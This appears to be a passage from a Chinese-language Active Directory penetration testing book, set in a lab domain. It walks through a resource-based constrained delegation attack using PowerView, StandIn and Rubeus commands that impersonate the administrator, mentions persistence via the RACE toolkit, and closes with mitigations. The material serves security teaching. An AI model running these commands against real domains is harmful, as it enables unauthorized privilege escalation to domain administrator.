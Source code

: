 ```
Get-DomainComputer "MyDesktop" -Properties objectsid
StandIn.exe --computer "kingslanding" --sid "S-1-5-21-4243769114-3325725031-2403382846-1122"
```

之前命令的结果如下图所示：

![图 5.32 – 创建了一个新的计算机帐户](img/B18964_05_32.jpg)

图 5.32 – 创建了一个新的计算机帐户

现在，我们可以获取一个票证：

```
Rubeus.exe hash /password:cQkFGq47oafTact /user:MyDesktop$ /domain:sevenkingdoms.local
Rubeus.exe s4u /user:MyDesktop$ /aes256:10AB7F32 B28F27AA7903D168C32C12A469EC7174783D6B5F52E8C10831FBE605 /msdsspn:http/kingslanding /impersonateuser:administrator /ptt
```

结果可以在以下截图中看到：

![图 5.33 – 成功的 RBCD 攻击](img/B18964_05_33.jpg)

图 5.33 – 成功的 RBCD 攻击

此外，我们还可以通过使用*Nikhil Mittal*编写的 RACE 工具包，通过修改计算机对象的权限来实现持久化。

为了防止 RBCD 滥用，我们可以定期审查域中的 ACL，减少机器账户配额至**0**（**ms-DS-MachineAccountQuota**），并确保只有特权用户能够将机器添加到域中。此外，应用**敏感且不可委托**账户属性和**受保护用户**组来保护高特权账户。需要特别说明的是，仅将机器账户配额设置为**0**并不能防止此类攻击[15]。

## 受限委托
